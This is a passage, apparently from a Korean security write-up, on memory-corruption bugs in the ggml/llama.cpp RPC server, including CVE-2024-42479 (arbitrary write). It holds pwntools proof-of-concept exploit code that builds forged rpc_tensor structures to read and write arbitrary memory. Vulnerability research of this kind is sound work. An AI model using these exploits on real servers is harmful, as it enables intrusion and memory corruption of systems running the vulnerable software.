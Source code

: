 ```
            p64(0),  # view_src
            p64(0),  # view_offs
            p64(0xdeadbeef),  # data
            'a' * 64,  # name
            'x' * 4  # padding
        ],
    }
)
cmd = p8(GET_TENSOR)
content = flat(
    {
        0: rpc_tensor_pd + p64(0) + p64(0x100)
    }
)
input_size = p64(len(content))
pd+= cmd + input_size + content

p.send(pd)
p.recv(0x18)

p.close()

```

### CVE-2024-42479 (Arbitrary Write)

rpc_tensor 구조체의 data 멤버를 조작해서 원하는 메모리 주소에 값을 쓸 수 있는 취약점입니다. 관련한 함수는 다음과 같습니다. 이번에는 set_tensor 를 할 때 발생합니다.

```

GGML_CALL static void ggml_backend_cpu_buffer_set_tensor(ggml_backend_buffer_t buffer, struct ggml_tensor * tensor, const void * data, size_t offset, size_t size) {
    memcpy((char *)tensor->data + offset, data, size);	//Write-what-where In here!
    GGML_UNUSED(buffer);
}

```

### PoC (CVE-2024-42479)

PoC 입니다. AAR 을 할 때와 마찬가지로 alloc_buffer 로 할당 받은 주소에 0x160 을 더한 주소에 ‘a’ 를 0x100 개 만큼 쓰고 있습니다.

```
from pwn import *

ALLOC_BUFFER = 0
GET_ALIGNMENT = 1
GET_MAX_SIZE = 2
BUFFER_GET_BASE = 3
FREE_BUFFER = 4
BUFFER_CLEAR = 5
SET_TENSOR = 6
GET_TENSOR = 7
COPY_TENSOR = 8
GRAPH_COMPUTE = 9
GET_DEVICE_MEMORY = 10

context(arch='amd64',log_level = 'debug')

p = remote("127.0.0.1",50052)
pd = b''
cmd = p8(GET_DEVICE_MEMORY)
content = b''
input_size = p64(len(content))
```